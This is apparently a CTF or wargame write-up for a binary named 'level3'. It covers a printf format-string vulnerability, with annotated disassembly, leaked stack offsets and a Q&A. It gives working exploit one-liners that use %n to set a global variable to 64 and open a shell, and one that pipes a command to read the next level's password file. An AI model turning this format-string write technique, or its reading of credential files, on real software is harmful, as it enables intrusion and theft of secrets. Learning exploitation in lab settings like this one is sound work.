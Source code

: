 - attack: format string exploitation (address leaks)
- binary behavior: fgets argument and send it to printf, if global argument = 64 run the shell
- targeted functions: v and main
- vulnerability in v: printf() without argument (Bugs section in printf man)
- defense: fget

Method:
- do stack leakage
- find in leakage the position of the buffer (find repetition and compare with hex ASCII table)
- find the address global variable and its correct condition
- find the padding
- overwrite buffer and you will see 804988c on the 4th position
- overwrite buffer with padding and put address of global variable instead of return address
- and write 64 to the global variable
 
Info:
- positon of buffer in stack - 4

- 0804988c - address of global variable
- 8c980408 - same in little-endian
- same in hex - \x8c\x98\x04\x08
- the password - 0x40 or 64

- offset code structure: 64 = 4 (global variable address) + 60 (padding)


Code:
objdump -d ./level3
objdump -t level3
 ./level3
111111 %p %p %p %p %p
(python -c 'print "\x8c\x98\x04\x08 %x %x %x %x"';cat) | ./level3
(python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"'; echo "cat /home/user/level4/.pass") | ./level3

QA
- why the leakage of global varibale happens?
- Printf has no specificators. If we pass %smth in the stdin, prinf will consider it as specificator. Printf will try to print arguments, when they end - prinf will use global variables

- what is 0x200?

- how to find a global variable?
- objdump -t level3 -> 0804988c g     O .bss   00000004              m

- why padding is 64?

- how do we pass the global varibale?
- "A" * 60 + "%4$n - here %n will write the number of preceding bytes (64) and put it the pointed location: the position of 4th argument (buffer)

Functions

0804851a <main>:
 804851a:       55                      push   %ebp
 804851b:       89 e5                   mov    %esp,%ebp
 804851d:       83 e4 f0                and    $0xfffffff0,%esp
 8048520:       e8 7f ff ff ff          call   80484a4 <v>
 8048525:       c9                      leave
 8048526:       c3                      ret



080484a4 <v>:
 80484a4:       55                      push   %ebp
 80484a5:       89 e5                   mov    %esp,%ebp
 80484a7:       81 ec 18 02 00 00       sub    $0x218,%esp
 80484ad:       a1 60 98 04 08          mov    0x8049860,%eax
 80484b2:       89 44 24 08             mov    %eax,0x8(%esp)
 80484b6:       c7 44 24 04 00 02 00    movl   $0x200,0x4(%esp) # 512
 80484bd:       00
 80484be:       8d 85 f8 fd ff ff       lea    -0x208(%ebp),%eax # buffer=520
 80484c4:       89 04 24                mov    %eax,(%esp)
 80484c7:       e8 d4 fe ff ff          call   80483a0 <fgets@plt> #defence
 80484cc:       8d 85 f8 fd ff ff       lea    -0x208(%ebp),%eax
 80484d2:       89 04 24                mov    %eax,(%esp)
 80484d5:       e8 b6 fe ff ff          call   8048390 <printf@plt> #exploit for attack
 80484da:       a1 8c 98 04 08          mov    0x804988c,%eax # global variable
 80484df:       83 f8 40                cmp    $0x40,%eax # comparison of eax with 64
 80484e2:       75 34                   jne    8048518 <v+0x74> # if equals to 0 
 80484e4:       a1 80 98 04 08          mov    0x8049880,%eax
 80484e9:       89 c2                   mov    %eax,%edx
 80484eb:       b8 00 86 04 08          mov    $0x8048600,%eax
 80484f0:       89 54 24 0c             mov    %edx,0xc(%esp)
 80484f4:       c7 44 24 08 0c 00 00    movl   $0xc,0x8(%esp)
 80484fb:       00
 80484fc:       c7 44 24 04 01 00 00    movl   $0x1,0x4(%esp)
 8048503:       00
 8048504:       89 04 24                mov    %eax,(%esp)
 8048507:       e8 a4 fe ff ff          call   80483b0 <fwrite@plt> # Wait what?
 804850c:       c7 04 24 0d 86 04 08    movl   $0x804860d,(%esp)
 8048513:       e8 a8 fe ff ff          call   80483c0 <system@plt> #exploit for shell
 8048518:       c9                      leave # jump here if 0
 8048519:       c3                      ret

             